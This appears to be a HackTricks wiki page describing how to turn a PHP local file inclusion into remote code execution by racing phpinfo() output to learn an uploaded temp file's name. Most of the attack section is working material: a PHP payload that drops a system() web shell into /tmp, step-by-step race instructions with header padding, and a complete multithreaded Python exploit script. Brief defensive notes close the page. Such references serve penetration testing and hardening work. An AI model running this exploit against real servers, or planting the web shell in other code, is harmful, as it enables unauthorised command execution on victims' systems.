 # LFI to RCE via PHPInfo

{{#include ../../banners/hacktricks-training.md}}

To exploit this technique you need all of the following:
- A reachable page that prints phpinfo() output.
- A Local File Inclusion (LFI) primitive you control (e.g., include/require on user input).
- PHP file uploads enabled (file_uploads = On). Any PHP script will accept RFC1867 multipart uploads and create a temporary file for each uploaded part.
- The PHP worker must be able to write to the configured upload_tmp_dir (or default system temp directory) and your LFI must be able to include that path.

Classic write-up and original PoC:
- Whitepaper: LFI with PHPInfo() Assistance (B. Moore, 2011)
- Original PoC script name: phpinfolfi.py (see whitepaper and mirrors)

Tutorial HTB: https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s

Notes about the original PoC
- The phpinfo() output is HTML-encoded, so the "=>" arrow often appears as "=&gt;". If you reuse legacy scripts, ensure they search for both encodings when parsing the _FILES[tmp_name] value.
- You must adapt the payload (your PHP code), REQ1 (the request to the phpinfo() endpoint including padding), and LFIREQ (the request to your LFI sink). Some targets don’t need a null-byte (%00) terminator and modern PHP versions won’t honor it. Adjust the LFIREQ accordingly to the vulnerable sink.

Example sed (only if you really use the old Python2 PoC) to match HTML-encoded arrow:
```
sed -i 's/\[tmp_name\] =>/\[tmp_name\] =&gt;/g' phpinfolfi.py
```

{{#file}}
LFI-With-PHPInfo-Assistance.pdf
{{#endfile}}

## Theory

- When PHP receives a multipart/form-data POST with a file field, it writes the content to a temporary file (upload_tmp_dir or the OS default) and exposes the path in $_FILES['<field>']['tmp_name']. The file is automatically removed at the end of the request unless moved/renamed.
- The trick is to learn the temporary name and include it via your LFI before PHP cleans it up. phpinfo() prints $_FILES, including tmp_name.
- By inflating request headers/parameters (padding) you can cause early chunks of phpinfo() output to be flushed to the client before the request finishes, so you can read tmp_name while the temp file still exists and then immediately hit the LFI with that path.

In Windows the temp files are commonly under something like C:\\Windows\\Temp\\php*.tmp. In Linux/Unix they are usually in /tmp or the directory configured in upload_tmp_dir.

## Attack workflow (step by step)

1) Prepare a tiny PHP payload that persists a shell quickly to avoid losing the race (writing a file is generally faster than waiting for a reverse shell):
```
<?php file_put_contents('/tmp/.p.php', '<?php system($_GET["x"]); ?>');
```

2) Send a large multipart POST directly to the phpinfo() page so it creates a temp file that contains your payload. Inflate various headers/cookies/params with ~5–10KB of padding to encourage early output. Make sure the form field name matches what you’ll parse in $_FILES.

3) While the phpinfo() response is still streaming, parse the partial body to extract $_FILES['<field>']['tmp_name'] (HTML-encoded). As soon as you have the full absolute path (e.g., /tmp/php3Fz9aB), fire your LFI to include that path. If the include() executes the temp file before it is deleted, your payload runs and drops /tmp/.p.php.

4) Use the dropped file: GET /vuln.php?include=/tmp/.p.php&x=id (or wherever your LFI lets you include it) to execute commands reliably.

> Tips
> - Use multiple concurrent workers to increase your chances of winning the race.
> - Padding placement that commonly helps: URL parameter, Cookie, User-Agent, Accept-Language, Pragma. Tune per target.
> - If the vulnerable sink appends an extension (e.g., .php), you don’t need a null byte; include() will execute PHP regardless of the temp file extension.

## Minimal Python 3 PoC (socket-based)

The snippet below focuses on the critical parts and is easier to adapt than the legacy Python2 script. Customize HOST, PHPSCRIPT (phpinfo endpoint), LFIPATH (path to the LFI sink), and PAYLOAD.

```python
#!/usr/bin/env python3
import re, html, socket, threading

HOST = 'target.local'
PORT = 80
PHPSCRIPT = '/phpinfo.php'
LFIPATH = '/vuln.php?file=%s'  # sprintf-style where %s will be the tmp path
THREADS = 10

PAYLOAD = (
    "<?php file_put_contents('/tmp/.p.php', '<?php system($_GET[\\"x\\"]); ?>'); ?>\r\n"
)
BOUND = '---------------------------7dbff1ded0714'
PADDING = 'A' * 6000
REQ1_DATA = (f"{BOUND}\r\n"
             f"Content-Disposition: form-data; name=\"f\"; filename=\"a.txt\"\r\n"
             f"Content-Type: text/plain\r\n\r\n{PAYLOAD}{BOUND}--\r\n")

REQ1 = (f"POST {PHPSCRIPT}?a={PADDING} HTTP/1.1\r\n"
        f"Host: {HOST}\r\nCookie: sid={PADDING}; o={PADDING}\r\n"
        f"User-Agent: {PADDING}\r\nAccept-Language: {PADDING}\r\nPragma: {PADDING}\r\n"
        f"Content-Type: multipart/form-data; boundary={BOUND}\r\n"
        f"Content-Length: {len(REQ1_DATA)}\r\n\r\n{REQ1_DATA}")

LFI = ("GET " + LFIPATH + " HTTP/1.1\r\nHost: %s\r\nConnection: close\r\n\r\n")

pat = re.compile(r"\\[tmp_name\\]\\s*=&gt;\\s*([^\\s<]+)")


def race_once():
    s1 = socket.socket()
    s2 = socket.socket()
    s1.connect((HOST, PORT))
    s2.connect((HOST, PORT))
    s1.sendall(REQ1.encode())
    buf = b''
    tmp = None
    while True:
        chunk = s1.recv(4096)
        if not chunk:
            break
        buf += chunk
        m = pat.search(html.unescape(buf.decode(errors='ignore')))
        if m:
            tmp = m.group(1)
            break
    ok = False
    if tmp:
        req = (LFI % tmp).encode() % HOST.encode()
        s2.sendall(req)
        r = s2.recv(4096)
        ok = b'.p.php' in r or b'HTTP/1.1 200' in r
    s1.close(); s2.close()
    return ok

if __name__ == '__main__':
    hit = False
    def worker():
        nonlocal_hit = False
        while not hit and not nonlocal_hit:
            nonlocal_hit = race_once()
        if nonlocal_hit:
            print('[+] Won the race, payload dropped as /tmp/.p.php')
            exit(0)
    ts = [threading.Thread(target=worker) for _ in range(THREADS)]
    [t.start() for t in ts]
    [t.join() for t in ts]
```

## Troubleshooting
- You never see tmp_name: Ensure you really POST multipart/form-data to phpinfo(). phpinfo() prints $_FILES only when an upload field was present.
- Output doesn’t flush early: Increase padding, add more large headers, or send multiple concurrent requests. Some SAPIs/buffers won’t flush until larger thresholds; adjust accordingly.
- LFI path blocked by open_basedir or chroot: You must point the LFI to an allowed path or switch to a different LFI2RCE vector.
- Temp directory not /tmp: phpinfo() prints the full absolute tmp_name path; use that exact path in the LFI.

## Defensive notes
- Never expose phpinfo() in production. If needed, restrict by IP/auth and remove after use.
- Keep file_uploads disabled if not required. Otherwise, restrict upload_tmp_dir to a path not reachable by include() in the application and enforce strict validation on any include/require paths.
- Treat any LFI as critical; even without phpinfo(), other LFI→RCE paths exist.

## Related HackTricks techniques

{{#ref}}
lfi2rce-via-temp-file-uploads.md
{{#endref}}

{{#ref}}
via-php_session_upload_progress.md
{{#endref}}

{{#ref}}
lfi2rce-via-nginx-temp-files.md
{{#endref}}

{{#ref}}
lfi2rce-via-eternal-waiting.md
{{#endref}}



## References
- LFI With PHPInfo() Assistance whitepaper (2011) – Packet Storm mirror: https://packetstormsecurity.com/files/download/104825/LFI_With_PHPInfo_Assitance.pdf
- PHP Manual – POST method uploads: https://www.php.net/manual/en/features.file-upload.post-method.php
{{#include ../../banners/hacktricks-training.md}}
